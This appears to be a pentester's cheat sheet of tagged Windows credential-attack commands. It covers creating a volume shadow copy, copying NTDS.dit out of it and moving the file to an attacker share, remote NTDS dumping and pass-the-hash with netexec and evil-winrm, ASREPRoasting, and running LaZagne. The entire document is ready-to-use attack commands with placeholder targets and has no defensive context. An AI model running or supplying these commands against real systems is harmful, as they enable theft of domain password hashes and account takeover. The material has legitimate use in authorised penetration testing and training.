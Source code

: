 ## password attacks - local - Creating Shadow Copy of C:
#plateform/windows #target/local #port/ #protocol/ #cat/ATTACK/
```
echo "vssadmin CREATE SHADOW /For=C:""
```

## password attacks - local - Copying NTDS.dit from the VSS
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit"
```

## password attacks - local - Transferring NTDS.dit to Attack Host
#plateform/linux #target/local #port/ #protocol/ #cat/ATTACK/
```
cmd.exe /c move C:\NTDS\NTDS.dit \\<IP>\<share>
```

## password attacks - remote - capture ntds with netexec
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nxc smb <ip> -u <user> -p <password> --ntds
```

## password attacks - remote - pass the hash evil-winrm
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
evil-winrm -i <ip>  -u  <user> -H "<NThash>"
```

## password attacks - remote - pass the hash netexec
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nxc smb <ip> -u <user> -d <domain> -H <Hash>
```

## password attacks - remote - ASREPRoast netexec
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nxc ldap <ip> -u <user> -p '<password>' --asreproast output.txt
```

## password attacks - local - windows credential hunting lazagne
#plateform/windows #target/local #port/ #protocol/ #cat/ATTACK/
```
echo "start lazagne.exe all"
```
